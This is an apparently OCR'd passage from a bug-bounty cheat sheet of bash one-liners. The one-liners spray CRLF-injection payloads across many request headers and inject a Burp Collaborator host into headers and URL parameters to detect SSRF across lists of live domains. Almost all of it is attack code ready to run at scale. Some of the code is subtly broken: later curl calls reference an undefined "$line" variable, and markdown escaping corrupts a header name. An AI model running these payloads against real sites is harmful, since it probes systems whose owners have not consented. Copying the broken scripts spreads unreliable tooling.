 ### On Headers (Files containing live domains)

Explanation – If any header is vulnerable to crlf injection, then it alerts.

```bash
cat $1 | rush -j40 'if curl -Iks -m 10 "{}" -H "CF-Connecting\_IP: %0d%0acrlf:crlf" -H "From: root@%0d%0acrlf:crlf" -H "Client-IP: %0d%0acrlf:crlf" -H "X-Client-IP: %0d%0acrlf:crlf" -H "X-Forwarded-For: %0d%0acrlf:crlf" -H "X-Wap-Profile: %0d%0acrlf:crlf" -H "Forwarded: %0d%0acrlf:crlf" -H "True-Client-IP: %0d%0acrlf:crlf" -H "Contact: root@%0d%0acrlf:crlf" -H "X-Originating-IP: %0d%0acrlf:crlf" -H "X-Real-IP: %0d%0acrlf:crlf" | grep -q "^crlf:crlf" || curl -Iks -m 10 "$line" -H "CF-Connecting\_IP: %E5%98%8D%E5%98%8Acrlf:crlf" -H "From: root@%E5%98%8D%E5%98%8Acrlf:crlf" -H "Client-IP: %E5%98%8D%E5%98%8Acrlf:crlf" -H "X-Client-IP: %E5%98%8D%E5%98%8Acrlf:crlf" -H "X-Forwarded-For: %E5%98%8D%E5%98%8Acrlf:crlf" -H "X-Wap-Profile: %E5%98%8D%E5%98%8Acrlf:crlf" -H "Forwarded: %E5%98%8D%E5%98%8Acrlf:crlf" -H "True-Client-IP: %E5%98%8D%E5%98%8Acrlf:crlf" -H "Contact: root@%E5%98%8D%E5%98%8Acrlf:crlf" -H "X-Originating-IP: %E5%98%8D%E5%98%8Acrlf:crlf" -H "X-Real-IP: %E5%98%8D%E5%98%8Acrlf:crlf" | grep -q "^crlf:crlf" || curl -Iks -m 10 "$line" -H "CF-Connecting\_IP: %0D%0Acrlf:crlf" -H "From: root@%0D%0Acrlf:crlf" -H "Client-IP: %0D%0Acrlf:crlf" -H "X-Client-IP: %0D%0Acrlf:crlf" -H "X-Forwarded-For: %0D%0Acrlf:crlf" -H "X-Wap-Profile: %0D%0Acrlf:crlf" -H "Forwarded: %0D%0Acrlf:crlf" -H "True-Client-IP: %0D%0Acrlf:crlf" -H "Contact: root@%0D%0Acrlf:crlf" -H "X-Originating-IP: %0D%0Acrlf:crlf" -H "X-Real-IP: %0D%0Acrlf:crlf" | grep -q "^crlf:crlf"; then echo "The URL {} with vulnerable header may be vulnerable to CRLF Injection. Check Manually";fi'
```

## 6. SSRF Check One Liner

### On Headers (File containing live domains)

Explanation – Injceted burp collaborator server in requested headers and issues a request and saves it in the output file including each request timing so that if one gets a hit, he can confirm by checking the request timing.

Replace $2 with your burp collaborator server.

```bash
cat live-domains | rush -j40 'if curl -skL -o /dev/null "{}" -H "CF-Connecting\_IP: $2" -H "From: root@$2" -H "Client-IP: $2" -H "X-Client-IP: $2" -H "X-Forwarded-For: $2" -H "X-Wap-Profile: [http://$2/wap.xml](http://$2/wap.xml)" -H "Forwarded: $2" -H "True-Client-IP: $2" -H "Contact: root@$2" -H "X-Originating-IP: $2" -H "X-Real-IP: $2"; then echo "{}" | ts; fi' | tee -a ssrf-headers-out.txt
```

### On Urls containing params

Explanation – Takes urls list, replaces the params value to the burp collaborator server and passes it to rush for parallel working.

```bash
cat urls.txt | qsreplace "your.burpcollaborator.server" | rush -j40 'if curl -skL "{}" -o /dev/null; then echo "{}" | ts; fi' | tee -a ssrf-output-log.txt
```

Test Case 2

```bash
cat params.txt | qsreplace "[http://$1](http://$1/)" | rush -j40 'if curl -skL "{}" -o /dev/null; then echo "{}" | ts; fi' | tee -a ssrf-output-log.txt
```

